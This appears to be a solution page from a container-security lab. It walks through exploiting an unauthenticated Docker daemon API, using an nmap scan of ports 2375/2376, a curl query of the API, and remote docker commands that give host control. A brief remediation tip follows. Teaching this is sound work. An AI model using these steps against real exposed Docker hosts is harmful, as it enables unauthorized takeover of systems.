 # Exploiting docker misconfiguration - Solution

> The Docker daemon can listen for Docker Engine API requests via three different types of Socket `unix`, `tcp`, and `fd`. To access remotely we have to enable `tcp` socket. The default setup provides un-encrypted and un-authenticated direct access to the Docker daemon. It is conventional to use port `2375` for un-encrypted, and port `2376` for encrypted communication with the daemon.

* Scan the `2375` and `2376` port using nmap from student VM

```bash
nmap -p 2375,2376 -n 192.168.56.4 -v
```

![nmap scan for port 2375](images/misconfig-nmap-scan.png)


* We can query the docker API using `curl`

```bash
curl 192.168.56.4:2375/images/json | jq .
```

![accessing images via curl](images/misconfig-curl-images.png)

* Attacker can abuse this by using the docker daemon configuration to access the host system's docker runtime

```bash
docker -H tcp://CTFVMIP:2375 ps
docker -H tcp://CTFVMIP:2375 images
```

![docker tcp host usage](images/docker-tcp-host-access.png)

* Now, we have full privilege over the host system :)

## Fixing this vulnerability

* Use the `2376` port for exposing if required to expose the Docker API. Otherwise use `fd` or `socket` to expose the docker runtime daemon